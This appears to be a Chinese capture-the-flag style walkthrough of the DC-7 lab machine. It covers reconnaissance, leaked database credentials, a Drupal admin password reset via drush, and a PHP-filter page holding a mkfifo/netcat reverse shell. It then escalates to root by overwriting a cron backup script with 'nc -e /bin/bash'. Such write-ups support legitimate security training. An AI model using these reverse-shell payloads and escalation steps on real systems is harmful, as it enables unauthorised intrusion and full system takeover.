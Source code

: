 ```yaml
---
layout: post
title: DC-7
subtitle: DC-7
date: 2023-07-16 09:47
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```


## 1. 信息搜集

ip 扫描发现 `192.168.163.131`

![image.png](https://img.ghostliner.top/8pzokb.png)

nmap 扫描端口

```shell
nmap -T4 -A -p- 192.168.163.131
```

![image.png](https://img.ghostliner.top/7M8xan.png)

访问站点发现特殊字符串

![image.png](https://img.ghostliner.top/RdFxZA.png)

必应搜索 `DC7USER` 发现 GitHub 项目 `staffdb`
[Dc7User/staffdb](https://github.com/Dc7User/staffdb)

在配置文件中发现 mysql 数据库连接配置

![image.png](https://img.ghostliner.top/EfjNcG.png)

```php
<?php
	$servername = "localhost";
	$username = "dc7user";
	$password = "MdR3xOgB7#dW";
	$dbname = "Staff";
	$conn = mysqli_connect($servername, $username, $password, $dbname);
?>
```

## 2. 渗透测试

使用该用户名密码进行 SSH 连接，成功

查看目录，发现 mbox 邮件文件和网站备份文件

![image.png](https://img.ghostliner.top/LC5ABy.png)

查看 mbox 文件，发现定时执行脚本：`/opt/scripts/backups.sh`

查看 `/var/mail/dc7user` 文件，发现自动化任务间隔 15 分钟

![image.png](https://img.ghostliner.top/WVsmvH.png)

查看脚本权限，发现当前用户无法写入，但是 `www-data`可以

![image.png](https://img.ghostliner.top/OoOhy8.png)

查看脚本内容：

```shell
#!/bin/bash
rm /home/dc7user/backups/*
cd /var/www/html/
drush sql-dump --result-file=/home/dc7user/backups/website.sql
cd ..
tar -czf /home/dc7user/backups/website.tar.gz html/
gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.sql
gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.tar.gz
chown dc7user:dc7user /home/dc7user/backups/*
rm /home/dc7user/backups/website.sql
rm /home/dc7user/backups/website.tar.gz
```

发现 drush 命令：[dupal 瑞士军刀：drush 命令大全](https://www.dwoke.com/node/436)

### 2.1. 用户提权

尝试 www-data 用户提权

```shell
cd /var/www/html
# 更改admin用户密码
drush user-password admin --password="admin"
```

![image.png](https://img.ghostliner.top/pDzFGN.png)

网站登录成功，尝试反弹 shell 获取 `www-data`用户权限，以更改 `backups.sh`脚本

安装插件： <https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz>

![image.png](https://img.ghostliner.top/yk1FYQ.png)

开启插件
![image.png](https://img.ghostliner.top/E4bbaT.png)

勾选，点击页面最下方 `install`

### 2.2. 反弹 shell

在文章中添加脚本

```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -nv 192.168.163.132 4444 >/tmp/f');?>
```

![image.png](https://img.ghostliner.top/CxupAM.png)

反弹 shell 成功，编辑 `/opt/scripts/backups.sh` 文件

```shell
echo "nc -nv 192.168.163.132 5555 -e /bin/bash" >/opt/scripts/backups.sh
```

反弹 shell 成功，获取到 root 权限

![image.png](https://img.ghostliner.top/2aDj41.png)

### 2.3. 查看 flag

```shell
python -c "import pty;pty.spawn('/bin/bash')"
cat /root/theflag.txt
```

![image.png](https://img.ghostliner.top/tX2DGp.png)
